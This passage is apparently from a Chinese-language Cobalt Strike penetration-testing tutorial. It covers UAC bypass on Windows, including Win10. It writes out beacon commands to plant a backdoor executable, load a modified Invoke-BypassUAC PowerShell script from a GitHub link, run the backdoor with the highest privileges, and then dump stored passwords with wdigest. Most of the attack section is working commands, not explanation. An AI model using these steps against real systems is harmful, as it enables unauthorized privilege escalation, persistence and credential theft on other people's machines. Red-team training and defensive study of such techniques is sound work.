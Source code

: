 *   [内网渗透中的mimikatz](http://drops.wooyun.org/tips/7547)
*   [域渗透的金之钥匙](http://drops.wooyun.org/tips/9591)

据说这个在域渗透中很有用哟~

0x056 BypassUAC
---------------

什么，你不能读密码？试试bypassuac吧~

直接执行

```
beacon> bypassuac

```

下面你就可以执行那些需要最高权限的操作了。

这一块在测试Win10的时候并没有成功，关于Win10的bypassuac我在博客里面也有相关介绍，详情:[戳我呀](http://evi1cg.me/archives/Powershell_Bypass_UAC.html)

在这里就演示使用bypassuac的powershell脚本来获取Win10最高权限，由于nishang的powershell脚本现在并不支持Win10,所以这里使用了一个我修改的powershell脚本[invoke-BypassUAC.ps1](https://raw.githubusercontent.com/Ridter/Pentest/master/powershell/MyShell/invoke-BypassUAC.ps1)

生成一个beacon后门：

![Alt text](http://drops.javaweb.org/uploads/images/ce4e4a5dbb2ae27a31523f5f3caf0a19c7936a76.jpg)

上传后门：

```
beacon> cd E:
beacon> upload /Users/evi1cg/Desktop/test.exe 

```

加载powershell执行后门：

```
beacon> powershell-import /Users/evi1cg/Pentest/Powershell/MyShell/invoke-BypassUAC.ps1
beacon> powershell Invoke-BypassUAC -Command 'E:\test.exe'

```

然后他就破了：

![Alt text](http://drops.javaweb.org/uploads/images/ee569b9acbda20597631b66d1d444ff93ee3e858.jpg)

使用那个破了的电脑的beacon读取密码：

```
beacon> sleep 0
beacon> wdigest

```

![Alt text](http://drops.javaweb.org/uploads/images/81a850cbf77cfc0bd45ff2f97c740357e1403270.jpg)

